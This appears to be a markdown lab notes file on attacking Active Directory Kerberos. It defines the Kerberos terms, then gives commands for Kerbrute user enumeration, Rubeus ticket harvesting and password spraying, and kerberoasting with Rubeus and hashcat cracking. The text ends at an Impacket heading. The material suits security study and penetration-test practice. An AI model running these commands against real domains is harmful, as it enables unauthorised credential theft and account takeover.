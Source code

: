 # Active Directory

## Kerberos

Kerberos is the default authentication service for Microsoft Windows domains. It is intended to be more "secure" than NTLM by using third party ticket authorization as well as stronger encryption. Even though NTLM has a lot more attack vectors to choose from Kerberos still has a handful of underlying vulnerabilities just like NTLM that we can use to our advantage.

Common Terminology -  

Ticket Granting Ticket (TGT) - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain.
Key Distribution Center (KDC) - The Key Distribution Center is a service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service.
Authentication Service (AS) - The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets.
Ticket Granting Service (TGS) - The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain.
Service Principal Name (SPN) - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
KDC Long Term Secret Key (KDC LT Key) - The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC.
Client Long Term Secret Key (Client LT Key) - The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
Service Long Term Secret Key (Service LT Key) - The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
Session Key - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
Privilege Attribute Certificate (PAC) - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.

### Enumeration w Kerbrute 

You need to add the DNS domain name with the machine IP to /etc/hosts `10.10.253.78  CONTROLLER.local`

1. Link: (Kerbrute GitHub)[https://github.com/ropnop/kerbrute/releases]
2. rename kerbrute_linux_amd64 to kerbrute
3. make it executable `chmod +x kerbrute`

### Enumerate Users w Kerbrute

1. You need a wordlist for Users -> (User.txt)[https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt]
2. 
```console
$ ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

### Harvesting/ Bruteforce Tickets w Rubeus

**Harvesting:**
You have to run it on attacker machine!
Link: (Rubeus GitHub)[https://github.com/GhostPack/Rubeus]

```console
$ Rubeus.exe harvest /interval:30

 - This command tells Rubeus to harvest for TGTs every 30 seconds
```
**Bruteforce**
Add the domain controller to windows hosts file `echo 10.10.253.78 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

```console
$ Rubeus.exe brute /password:Password1 /noticket

- This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user
```

### Kerberoasting w Rubeus & Impacket

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.

**Method1: Rubeus**
```console
$ Rubeus.exe kerberoast 

- This will dump the Kerberos hash of any kerberoastable users

```

Copy the hash to your machine and crack it with hashcat

```console
$ hashcat -m 13100 -a 0 hash.txt wordlist.txt
```

**Method2: Impacket**